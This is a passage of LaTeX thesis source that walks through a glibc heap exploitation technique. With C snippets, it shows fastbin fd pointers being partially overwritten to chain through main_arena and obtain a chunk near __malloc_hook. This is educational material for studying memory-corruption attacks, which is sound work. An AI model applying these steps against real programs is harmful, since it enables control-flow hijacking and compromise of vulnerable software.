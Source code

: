 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
The last \freec{}, put \lstinline{main_arena_use} chunk inside the \ub{}; also, \lstinline{main_arena_use} has a pointer to \lstinline{main_arena+0X68} inside \lstinline{fd} pointer.
Now by request a chunk inside the \fb{} chunk size, we have a chunk that has a pointer to \lstinline{main_arena inside} the \lstinline{fd} pointer.

\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_libc_chunk = malloc(0x60);
\end{lstlisting}

Note that the chunk size is mainly set to 0x60 to put this inside the fast bins 0x70 later. 
In the next step, we free \lstinline{relative_offset_heap} and \lstinline{fastbin_victim} . We free \lstinline{relative_offset_heap} at first, so the heap manager puts \lstinline{relative_offset_heap} inside the \lstinline{fd} pointer to \lstinline{fastbin_victim}. Please take a look at the heap layout.

\begin{lstlisting}[language=c,frame=tlrb]
0x0: fastbin_victim - size 0x70 
0x70: alignment_filler - size 0x90
0x100: fake_libc_chunk - size 0x70
0x170: leftover_main - size 0x20
0x190: relative_offset_heap - size 0x70 
\end{lstlisting}

Now,  \fb{} use a single link list and the \lstinline{fd} pointer of \lstinline{fastbin_victim}, point to \lstinline{relative_offset_heap}. By manipulating the last two bytes of \lstinline{fastbin_victim}, we make it a point to \lstinline{fake_libc_chunk}. Also, as we remember, \lstinline{fake_libc_chunk} had a pointer to \lstinline{main_arens+0x68} inside the \lstinline{fd} pointer.

\begin{lstlisting}[language=c,frame=tlrb]
fastbin_victim[0] = 0x00;
\end{lstlisting}

The final layout of \fb{} would be as below.

\begin{lstlisting}[language=c,frame=tlrb]
fastbin_victim -> fake_libc_chunk ->(main_arena + 0x68).
\end{lstlisting}

We need to change the \lstinline{fd} pointer to \lstinline{fake_libc_chunk} to point to \lstinline{malloc_hook} instead of \lstinline{main_arena + 0x68}.

\begin{lstlisting}[language=c,frame=tlrb]
long long __malloc_hook = ((long*)fake_libc_chunk)[0] - 0xe8;
long long __malloc_hook_adjust = __malloc_hook - 0x23;
int8_t byte1 = (__malloc_hook_adjust) & 0xff; 
int8_t byte2 = (__malloc_hook_adjust & 0xff00) >> 8; 
fake_libc_chunk[0] = byte1;
fake_libc_chunk[1] = byte2;
malloc(0x60);
malloc(0x60);
uint8_t* malloc_hook_chunk = malloc(0x60);
\end{lstlisting}
\end{document}
